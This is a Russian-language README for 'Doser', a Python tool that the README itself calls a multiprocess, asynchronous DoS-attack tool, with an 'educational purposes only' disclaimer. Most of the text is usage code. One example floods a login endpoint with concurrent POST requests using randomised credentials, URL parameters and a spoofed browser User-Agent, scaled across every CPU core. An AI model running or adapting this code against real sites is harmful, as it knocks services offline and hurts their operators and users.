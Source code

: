 # Doser

>Автор не несет ответственности за негативные последствия, полученные
в результате использования данного репозитория. Весь код представлен
исключительно в образовательных целях!

Doser – многопроцессорный + асинхронный инструмент для DoS-атак.

## Установка зависимостей

```bash
pip install -r requirements.txt
```

## Минимальный пуск

```python
from dos import Doser
import multiprocessing as mp


if __name__ == '__main__':
    mp.freeze_support()

    try:
        Doser().start('https://example.com')
    except KeyboardInterrupt:
        print('\n- Aborted -')
```

## Расширенный пуск

```python
from typing import Any
from dos import Doser, AlwaysRandomValue
from aiohttp import ClientResponse
import multiprocessing as mp
import string, time


_TIMEOUT_SEC = 7

def _url_format_callback(url: str, *_: Any) -> str:
    return url.format(AlwaysRandomValue((2225, 2700), extra_chars=' ')())

async def _response_callback(response: ClientResponse, i: int, pid: int) -> None:
    pass

def _main(cpu_count: int) -> None:
    Doser(
        process_count=cpu_count,
        async_request_count=150
    ).start(
        url='https://example.com/login/?option={}',
        method='POST',
        timeout_sec=_TIMEOUT_SEC,
        url_format_callback=_url_format_callback,
        response_callback=_response_callback,
        allow_redirects=False,
        headers={
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36'
        },
        data={
            'login': AlwaysRandomValue(12, string.digits),
            'password': AlwaysRandomValue((9, 15)),
        },
        cookies={
            'name': 'value'
        }
    )

if __name__ == '__main__':
    mp.freeze_support()

    try:
        cpu_count = mp.cpu_count()

        print(f'- CPU count: {cpu_count} -\n')
        time.sleep(2)

        _main(cpu_count)
    except KeyboardInterrupt:
        print('\n- Aborted -')
```

## Протестирован на

- Windows 11
- [Python v3.11.4](https://www.python.org/downloads/release/python-3114/)
